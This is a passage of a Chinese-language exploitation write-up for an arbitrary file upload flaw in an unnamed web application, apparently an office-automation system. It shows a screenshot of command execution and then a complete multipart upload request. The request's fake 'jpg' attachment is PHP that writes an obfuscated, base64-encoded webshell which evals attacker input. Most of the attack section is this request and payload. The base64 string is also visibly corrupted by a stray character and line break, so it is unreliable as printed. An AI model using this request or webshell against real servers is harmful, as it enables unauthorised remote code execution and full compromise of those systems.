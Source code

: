 ```plain
```

![img](https://gitee.com/YatJay/image/raw/master/img/202203011918191.png)

执行命令“ipconfig”:

![img](https://gitee.com/YatJay/image/raw/master/img/202203011918125.png)

2.getshell

前台任意文件上传漏洞：抓取任意数据包，修改数据包进行重放，上传后缀为jpg的木马文件（木马文件执行写入文件操作）

```plain
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close
Content-Length: 1398
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"
2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"
123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"
1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg
<?php
$fp = fopen('shell.php', 'w');
$a = base64_decode("PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwppZiAoaXNzZXQoJF9HRVRbJ3Bhc3MnXSkpCnsKICAgICRrZXk9c3Vic3RyKG1kNSh1bmlxaWQocmFuZCgpKSksMTYpOwogICAgJF9TRVNTSU9OWydrJ109JGtleTsKICAgIHByaW50ICRrZXk7Cn0KZWxzZQp7CiAgICAka2V5PSRfU0VTU0lPTlsnayddOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC  ÿ
4iIik7CgkJCgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJHApIHtldmFsKCRwLiIiKTt9fQoJQG5ldyBDKCRwYXJhbXMpOwp9Cj8+");
fwrite($fp, $a);
fclose($fp);
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

![img](https://gitee.com/YatJay/image/raw/master/img/202203011919924.png)

查看生成的图片：

